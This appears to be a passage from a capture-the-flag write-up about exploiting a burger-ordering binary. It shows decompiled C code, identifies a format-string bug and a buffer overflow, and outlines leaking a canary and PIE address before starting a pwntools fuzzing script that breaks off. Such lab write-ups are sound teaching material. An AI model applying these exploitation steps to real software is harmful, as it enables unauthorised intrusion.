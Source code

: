 ```C
    __isoc99_scanf(&DAT_001020e0,local_3e);
    iVar1 = strcmp(local_3e,pcVar2);
    if (iVar1 == 0) {
      puts("Great! What type of burger would you like to order? ");
      __isoc99_scanf(&DAT_00102155,local_1f);
      getchar();
      printf("Please provide your phone number, we will delivered soon: ");
      pcVar2 = fgets(local_35,100,_stdin);
    }
    else {
      puts("Sorry, the secret message is incorrect. Exiting...");
      pcVar2 = (char *)0x0;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return pcVar2;
}
```

### Vulnerabilities

1. **Format String Vulnerability**: There is a format string vulnerability when you enter the name, if entered correctly we can get the secret message
2. **Buffer Overflow**: Buffer overflow vulnerability since has size local_35 10 only but it accepts 0x100

### Target Function

The `secret_order` function is our target to execute:
```C
void secret_order(void)

{
  system("cat ./flag.txt");
  return;
}
```

# Solution

Leak these values using format string attack:
- Secret Message
- CANARY
- Any PIE address (we can use this to find the base PIE address)

Using fuzz script i created
fuzz.py
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)


os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 25 values
for i in range(1,25):
    try:
        p = process(level='error')
```